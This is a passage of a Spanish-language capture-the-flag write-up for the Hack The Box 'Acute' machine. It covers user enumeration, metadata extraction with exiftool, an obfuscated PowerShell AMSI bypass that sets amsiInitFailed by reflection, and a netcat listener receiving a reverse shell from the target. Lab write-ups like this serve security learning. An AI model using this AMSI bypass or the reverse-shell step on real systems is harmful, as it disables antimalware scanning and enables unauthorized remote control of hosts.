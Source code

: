 Con el Intruder de ```BurpSuite``` llego a la conclusión de que el usuario válido es ```Edavies```

<img src="/writeups/assets/img/Acute-htb/9.png" alt="">

```null
exiftool New_Starter_CheckList_v7.docx -Description
Description                     : Created on Acute-PC01
```

Al intentar mandarme una Reverse Shell, me bloquea el AMSI

<img src="/writeups/assets/img/Acute-htb/10.png" alt="">

Para bypassearlo, provoco un error que corrompa la tarea y cambio el nombre de la función por otra cualquiera

```null
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

```null
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.145] 49834
Windows PowerShell running as user edavies on ACUTE-PC01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users>
```

Estoy dentro de un contenedor
